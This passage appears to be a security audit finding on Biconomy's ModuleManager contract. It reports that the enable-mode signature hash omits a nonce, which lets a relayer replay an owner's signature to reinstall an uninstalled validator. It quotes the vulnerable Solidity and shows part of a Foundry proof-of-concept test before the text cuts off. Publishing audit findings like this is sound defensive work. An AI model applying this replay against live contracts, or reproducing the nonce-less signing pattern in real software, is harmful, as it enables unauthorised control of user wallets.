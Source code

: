 [ModuleManager.sol#L166-L171](https://github.com/Cyfrin/2024-07-biconomy/blob/main/contracts/base/ModuleManager.sol#L166-L171)

```solidity
(moduleType, moduleInitData, enableModeSignature, userOpSignature) = packedData.parseEnableModeData();  

_checkEnableModeSignature(
    _getEnableModeDataHash(module, moduleInitData),
    enableModeSignature
);
_installModule(moduleType, module, moduleInitData);
```

However, the hash returned by `_getEnableModeDataHash()` does not include a nonce:

[ModuleManager.sol#L388-L398](https://github.com/Cyfrin/2024-07-biconomy/blob/main/contracts/base/ModuleManager.sol#L388-L398)

```solidity
function _getEnableModeDataHash(address module, bytes calldata initData) internal view returns (bytes32 digest) {
    digest = _hashTypedData(
        keccak256(
            abi.encode(
                MODULE_ENABLE_MODE_TYPE_HASH,
                module,
                keccak256(initData)
            )
        )
    );
}
```

This allows the owner's signature to be used repeatedly.

As a result, if a validator that was previously installed through `_enableMode()` is uninstalled by the owner, a malicious relayer/bundler can re-use the previous signature to re-install it through `validatorUserOp()` again, despite not having the owner's permission.

PoC:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import "test/foundry/unit/concrete/modulemanager/TestModuleManager_EnableMode.t.sol";

contract SignatureReplayTest is Test, TestModuleManager_EnableMode { 
    function test_enableModeSignatureReplay() public {
        // Create PackedUserOperation struct to install moduleToEnable
        address moduleToEnable = address(mockMultiModule);
        PackedUserOperation memory op = buildPackedUserOp(
            address(BOB_ACCOUNT), 
            getNonce(address(BOB_ACCOUNT), MODE_MODULE_ENABLE, moduleToEnable)
        );
        
        /*
        note: Alice is configured as owner for mockMultiModule in _getEnableModeDataAndHash(), 
        so she signs op.signature
        */
        op.signature = signMessage(ALICE, ENTRYPOINT.getUserOpHash(op)); 
        
        // Bob signs enable mode signature to add Alice as owner in new validator (ie. mockMultiModule)
        (bytes memory data, bytes32 hashToSign) = _getEnableModeDataAndHash();
        bytes memory enableModeSignature = signMessage(BOB, hashToSign);
        enableModeSignature = abi.encodePacked(address(VALIDATOR_MODULE), enableModeSignature);
```